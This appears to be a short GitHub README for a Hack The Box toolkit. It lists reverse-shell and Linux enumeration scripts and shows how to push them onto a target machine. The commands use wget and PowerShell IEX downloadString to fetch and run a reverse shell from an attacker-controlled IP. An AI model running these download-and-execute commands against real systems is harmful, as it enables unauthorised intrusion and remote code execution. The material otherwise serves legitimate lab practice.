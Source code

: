 # Hackthebox tools
**shell.php and shell.ps1** : Use for reverse shell when uploaded to vuln machine

**les.sh and LinEnum.sh** : Use for detect vuln in Linux machine

### How to upload files to vuln linux machine
In your machine type : 
> python -m SimpleHTTPServer

In vuln machine type : 
> wget (your ip address):8000/(file to upload)

Example : 
> wget 10.10.14.62:8000/les.sh

### How to execute powershell script to vuln windows machine
In your machine type : 
> python -m SimpleHTTPServer

In vuln machine type : 
```
if in powershell
IEX(New-Object Net.WebClient).downloadString('http://<ip address>:8000/<file>')
or if in cmd
powershell IEX(New-Object Net.WebClient).downloadString('http://<ip address>:8000/<file>')
```
  
Example : 
> powershell IEX(New-Object Net.WebClient).downloadString('http://10.10.12.81:8000/shell.ps1')
